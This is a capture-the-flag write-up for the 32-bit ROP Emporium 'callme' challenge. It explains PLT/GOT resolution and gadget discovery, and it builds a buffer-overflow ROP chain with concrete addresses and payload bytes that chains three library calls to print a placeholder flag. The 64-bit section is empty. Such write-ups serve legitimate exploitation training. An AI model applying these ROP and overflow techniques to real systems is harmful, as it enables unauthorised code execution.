

# CALLME Writeup

This challenge is based on the *Procedure Linkage Table (PLT)*. At static time (i.e., before executing) we do not know from the binary itself (i.e.,callme) the effective virtual addresses of the functions imported from external libs. The references to external symbols (e.g., functions) are resolved at runtime by the dynamic linker. Each external symbol has a corresponding placeholder (see .plt section of the elf) which points to an entry of the Global Offset Table (.got.plt section of the elf).

From the challenge we already know the following:
* at "high-level" we need to chain callme\_one, callme\_two and callme\_three exactly in this order.
* we need to pass the arguments (1,2,3) to each function, in the mentioned order.

## 32bit

### Prologue

From the _ret2win_ challenge we already know the size of the buffer and the payload we need to inject into it in order to make it overflow (44 bytes to overflow). Also, from the same challenge, we know that the vulnerable buffer is used by the _fgets_ call inside _pwnme_ function.

### Analysis

First of all, lets analyze the imported symbols in the callme32 binary with radare2:

```bash
rabin2 -i callme32
[Imports]
   1 0x00000000    WEAK  NOTYPE _ITM_deregisterTMCloneTable
   2 0x08048590  GLOBAL    FUNC printf
   3 0x080485a0  GLOBAL    FUNC fgets
   4 0x080485b0  GLOBAL    FUNC callme_three
   5 0x080485c0  GLOBAL    FUNC callme_one
   6 0x080485d0  GLOBAL    FUNC puts
   7 0x00000000    WEAK  NOTYPE __gmon_start__
   8 0x080485e0  GLOBAL    FUNC exit
   9 0x080485f0  GLOBAL    FUNC __libc_start_main
  10 0x08048600  GLOBAL    FUNC setvbuf
  11 0x08048610  GLOBAL    FUNC memset
  12 0x08048620  GLOBAL    FUNC callme_two
  13 0x00000000    WEAK  NOTYPE _Jv_RegisterClasses
  14 0x00000000    WEAK  NOTYPE _ITM_registerTMCloneTable
```
All of these symbols are resolved at runtime by the dynamic linker.
Reasoning about how dynamic linker resolves symbols and .plt section...
We can see the placeholders of the functions we are interested in from the disassembled binary (using IDA pro). As expected, the placeholders are stored in the .plt section:



### Build the ROP chain

Since these placeholders will be properly resolved at runtime by the dynamic linker we just need to call/reference them using the vaddrs given in the .plt.
So far we can build a piece of our ROP chain:

```bash
# vaddrs converted in little endian format (used by x86,x86_64 architectures)
call_one="\xc0\x85\x04\x08"
call_two="\x20\x86\x04\x08"
call_three="\xb0\x85\x04\x08"
# arguments of the function calls (little endia format)
one="\x01\x00\x00\x00"
two="\x02\x00\x00\x00"
three="\x03\x00\x00\x00"
# build current (incomplete) chain. remember: the stack uses a LIFO policy for its elements
call_one+one+two+three+
call_two+one+two+three+
call_three+one+two+three
# stack view
three
two
one
call_three
three
two
one
call_two
...
```
To complete our chain we need a proper ROP gadget: a set of asm instruction in the current binary which we will use as an handler to set up our environment and jump to the addresses we are interested in. Looking at the current chain, we need something that pops the arguments from the stack into the registers and then jumps to the current addr pointer by ESP (stack pointer). The latter is exactly what the _ret_ instruction does while the former can be achieved through several _pop \<register_name\>_ instructions. The ret instruction pops the current address from the top of the stack (ESP) into the EIP register and then jumps to the addr stored in EIP, effectively executing it. Luckily, we can use the _ropgadget_ feature of gdb-peda to check if there are common gadgets in our binary:

The result is:
```bash
ret = 0x8048562
popret = 0x8048579
pop2ret = 0x80488aa
pop3ret = 0x80488a9
pop4ret = 0x80488a8
addesp_12 = 0x8048576
addesp_16 = 0x80486a5
```

Uhm, the vaddr tagged as "pop3ret" seems interesting (pops 3 addresses from stack: 1,2,3 and then execs ret), lets inspect it with gdb:
```bash
80488a9:	5e                   	pop    %esi # pop $0x3 in ESI
80488aa:	5f                   	pop    %edi # pop $0x2 in EDI
80488ab:	5d                   	pop    %ebp # pop $0x1 in EBP
80488ac:	c3                   	ret    	# jmp to EIP, which contains the "call_X" vaddr
```
Bingo. Now, we need to understand where to insert this gadget in our chain.
It is easy if you think about what the gadget does and how the stack works. We would like end up with something like this on the stack:
```bash
0x3
0x2
0x1
rop_gadget
call_X_addr
```
So that when rop\_gadget is executed we get the following state:
```bash
ESI=0x3 # pop result
EDI=0x2 # pop result
EBP=0x1 # pop result
jump to call_X_addr # ret result
```

[Side Note:start]

Looking at the disassembled binary:
* The _puts@plt_ is the actual glibc call which implements (the "high-level") printf
* About envars:
```bash
LD_BIND_NOW=1
export LD_BIND_NOW
```
The envar is checked by the dynamic linker, it instructs the linker to resolve all the external references immediately before starting the execution of the program. This approach results in a slower initial execution of your binary because all the references have to be resolved before starting it. Anyway, subsequent calls to the resolved symbols will be faster cause the related got.plt table entries have already been filled with their addresses.

[Side Note:end]

### Execute the exploit

Wrapping-up, we have built the following ROP chain:
```bash
# vaddrs converted in little endian format (used by x86,x86_64 architectures)
call_one="\xc0\x85\x04\x08"
call_two="\x20\x86\x04\x08"
call_three="\xb0\x85\x04\x08"
# arguments of the function calls (little endian format)
one="\x01\x00\x00\x00"
two="\x02\x00\x00\x00"
three="\x03\x00\x00\x00"
# our ROP gadget (little endian format)
pop3ret="\xa9\x88\x04\x08"
# build current (incomplete) chain. remember: the stack uses a LIFO policy for its elements
call_one+pop3ret+one+two+three+
call_two+pop3ret+one+two+three+
call_three+pop3ret+one+two+three
```
Which you can better view in the script code shipped with this markdown file.

Result:
```bash
callme by ROP Emporium
32bits

Hope you read the instructions...
> ROPE{a_placeholder_32byte_flag!}
```

## 64bit

## Tools

* IDA pro: a multi-processor disassembler and debugger. The de-facto standard to dissassemble binaries
* [gdb-peda](https://github.com/longld/peda): a python extension for gdb. Useful to inspect binaries, search for patterns, gadgets, generate shellcodes, etc.
* [radare2](https://github.com/radare/radare2): another disassembler, binaries analyzer
